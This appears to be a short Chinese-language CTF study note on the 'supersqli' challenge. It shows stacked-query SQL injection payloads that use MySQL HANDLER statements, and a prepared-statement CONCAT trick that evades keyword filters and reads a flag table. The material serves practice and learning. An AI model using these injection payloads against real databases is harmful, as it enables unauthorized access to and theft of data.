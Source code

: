 ```yaml
---
title: CTF_Marks
date: 2023-11-01 20:16:11
tags:
- ctf
---
```


# SQL

[【精选】攻防世界之supersqli_攻防世界supersqli_金 帛的博客-CSDN博客](https://blog.csdn.net/l2872253606/article/details/123362430)

## show

show databases

show tables

当纯数字字符串是表名的时候需要加反引号:

show columns from \`1919810931114514\`

反引号表示内容为表明

## handler

[【MySQL】MySQL 之 handler 的详细使用及说明_mysql handler-CSDN博客](https://blog.csdn.net/qq_43427482/article/details/109898934)

##### 1、打开句柄

```mysql
handler handler_table open;#这里可以使用别名
```

##### 2、查看数据

```mysql
handler handler_table read first;
handler handler_table read next;
```

payload:
```
1';use supersqli;handler `1919810931114514` open as p;handler p read first;
```



## 预编译绕过法

[什么是MySQL的预编译？_mysql 预编译-CSDN博客](https://blog.csdn.net/bb15070047748/article/details/107266400)

```
-1';

set @sql = CONCAT('sele','ct flag from `1919810931114514`;');
#@表示变量
prepare stmt from @sql;

EXECUTE stmt;#
```
